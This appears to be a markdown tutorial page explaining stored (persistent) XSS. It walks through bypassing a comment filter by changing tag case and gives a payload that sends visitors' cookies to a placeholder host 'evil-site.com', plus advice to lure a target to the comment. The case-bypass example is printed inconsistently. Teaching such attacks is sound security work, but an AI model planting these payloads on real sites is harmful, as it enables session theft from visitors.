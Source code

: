 # Persistent XSS

> A **Persistent XSS** or **Stored XSS** is a type of XSS Vulnerability in which a malicious XSS payload is stored in the database of the server which makes the payload _persistent_ and it is sent to users in each following requests. Thus, making the XSS Payload _persistent_. The server **_stores_** the payload through any **influence** from the malicious actor/s but, due to it's own **functionality**.

Unlike Reflected XSS, in Persistent XSS the payload is not delivered directly to the victim but instead delivered indirectly through a vulnerable site.

`Persistent XSS is really hard to catch because, not only the payload is invisible to the user through the natural UI of the browser but also, a proper XSS Payload would just blend into it's environment.`

The most dangerous part of a **Persistent XSS** vulnerability is that, it can effect extremely large number of audiences in very short duration. For example, let's say there is a Persistent XSS vulnerability in a popular website's comment section. If someone uploads a stealthy malicious payload and hundred's of thousands of people view it. Then, everyone who sees the malicious comment would be compromised.

By the time it gets noticed, large number of people would already be affected.

Now let's get practical!

You just received an email from your friend with a URL to a forum's post. You decide to visit it and you see that it has lots of comment.

After reading comments for a while, you decide to test it's Web Application Firewall. So, you insert,

```html
<h1>Hello guys!</h1>
```

into it's comment section.
You don't see a  heading but simple text `Hello guys!`. What happened to the `<h1>` tags?
It's common for websites to filter out HTML tags as a rule for the WAF.

But, some of them might not block all the tags. For bypassing WAF's read here.

Now lets try the usual,

```html
<script>
  alert(1);
</script>
```

Hmm, no luck you get `alert(1)` as the comment. We see that WAF is successfully blocking all the tags including `script` tag. That's a clever WAF, so how are we going to do XSS?

Different WAFs use different techniques to detect HTML tags, some use regex and some use simple string search for HTML tags.

There is always some problem associated with a WAF's method of preventing XSS. For WAFs that search for HTML tags in a string, it can be bypassed easily. You will see how we can bypass them.

Let's enter the following into the comment section,

```html
<script>
  alert(0);
</script>
```

Voila! You get the alert! Easy, isn't it?
Why did `<SCRIPT>` worked but, `<script>` didn't? Because, the WAF of the website was searching and removing the HTML tags based on it's custom wordlist. Now, the wordlist did not have `<SCRIPT>` tag in it making the WAF completely useless.

Now, to steal cookies you would just put,

```html
<SCRIPT>
  document.write(
    "<img src='https://evil-site.com/cookie?cookie=" + document.cookie + " '>"
  );
</SCRIPT>
```

in the comment and lure your target into visiting the post and view the comment.
That is a dangerous piece of code that would steal everyone's cookie who views the page.

**Persistent XSS** are very dangerous and if you are a developer make sure to check for this vulnerabilities beforehand.
The XSS payload for **Persistent XSS** and **Reflected XSS** will mostly be similar but the technique for exploitation would be different depending on the situation.

To read further for WAF Bypassing [visit here](./Bypassing%20WAF.md)!
